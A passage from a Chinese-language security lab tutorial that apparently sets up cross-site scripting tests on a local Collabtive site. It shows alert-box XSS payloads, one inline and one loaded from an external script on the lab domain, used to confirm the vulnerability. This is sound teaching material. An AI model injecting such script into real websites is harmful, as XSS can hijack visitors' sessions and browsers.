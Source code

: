 ## 三、实验内容 

搭建好环境就开始进入到正式的实验步骤。

### 1、通过弹窗显示恶意信息 

#### 1.1 新建一个 `js.html` 文件，获取弹框

弹框的目的是为了验证是否存在xss漏洞：

```
cd /var/www/XSS/Collabtive/
sudo vim js.html
```
代码内容如下：
```
<script>
alert('xss');
</script>
```

访问测试：

![3.1-1](https://dn-anything-about-doc.qbox.me/userid9094labid882time1429156736097?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)


#### 1.2 通过html调用js来获取弹框

这么做是为了有的时候，受害网站不允许直接写js代码，这个时候我们可以通过调用js来检验是否存在xss漏洞.

新建 `myscript.js` 文件：

```
sudo vim myscript.js
```

代码内容如下：

```
alert('xss');
```

这里要说明一下，当我们调用js文件的时候，js文件中不需要写`<script></script>`标签；

新建 `include.html` 文件，调用js，验证xss漏洞是否存在：

```
sudo vim include.html
```
`include.html` 的内容如下:
```
<script type="text/javascript" src="http://www.xsslabcollabtive.com/myscript.js">
</script>
```

访问测试：

![3.1-2](https://dn-anything-about-doc.qbox.me/userid9094labid882time1429156782625?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)
